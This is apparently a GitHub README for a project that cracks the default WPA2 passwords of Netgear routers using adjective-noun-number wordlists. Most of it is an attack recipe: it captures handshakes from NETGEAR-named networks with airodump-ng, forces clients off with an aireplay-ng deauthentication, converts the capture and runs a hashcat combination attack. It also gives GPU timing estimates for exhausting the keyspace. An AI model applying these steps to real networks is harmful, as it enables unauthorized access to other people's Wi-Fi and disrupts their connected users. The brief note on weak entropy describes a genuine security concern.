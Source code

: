 
# Network WPA Wordlist

A wordlist for targeting netgear router default WPA2 passwords

Many Netgear routers with the SSID of `NETGEARxx` where xx is a two digit number have a default Wi-Fi password that follows the following pattern:
```
[english adjective][english noun][3 digit number]
```

Security researchers have noted that this password scheme does not provide a suffient ammount of entropy to generate secure Wi-Fi passwords.

## Generating Wordlist

In order to optimize wordlist file sizes, we will use two wordlists to feed into hashcat's Combination attack mode.

The first wordlist will be a list of 5000 adjectives.
- top\_english\_adjs\_lower\_5000.txt

The second wordlist will be a list of all combinations of a list of 10000 nouns with all possible 3 digit numbers.
Not wanting to commit a 106M wordlist to this repo, we will use the included python script to generate the second wordlist file:
- nouns-numbers.txt
```
generate-nouns-numbers.py
```

## Capturing WPA 4-way Handshake

save 4-way handshake to pcap:
```
sudo airodump-ng wlan0 --essid-regex NETGEAR[1-9]{2} -w psk
```

deauth client connected to targeted access point to get a handshake
```
sudo aireplay-ng -0 1 -a <AP MAC> -c <CLIENT MAC> wlan0
```

convert pcap to hashcat format
```
hcxpcapngtool -o hash.hc22000 -E wordlist psk-01.cap
```

## Cracking WPA Password Hash

hashcat Combination attack mode
```
hashcat -m 22000 -a 1 hash.hc22000 top_english_adjs_lower_5000.txt nouns-n-numbers.txt
```

## Math & Benchmarking

- 2080TI able to average 125100 hashes per second
- nouns-n-numbers.txt size: 10000000 lines
- top\_english\_adjs\_lower\_5000.txt size: 5000 lines
- total number of guesses = 50000000000 = 10000000 * 5000
- time to crack all possible passwords = 50000000000 guesses / 125100 hashes/second = 399680 seconds = 111 hours = 4.6 days

## References

- https://github.com/3mrgnc3/RouterKeySpaceWordlists
- https://www.aircrack-ng.org/doku.php?id=cracking\_wpa
- https://github.com/david47k/top-english-wordlists
- https://hashcat.net/forum/thread-7443-post-40036.html#pid40036
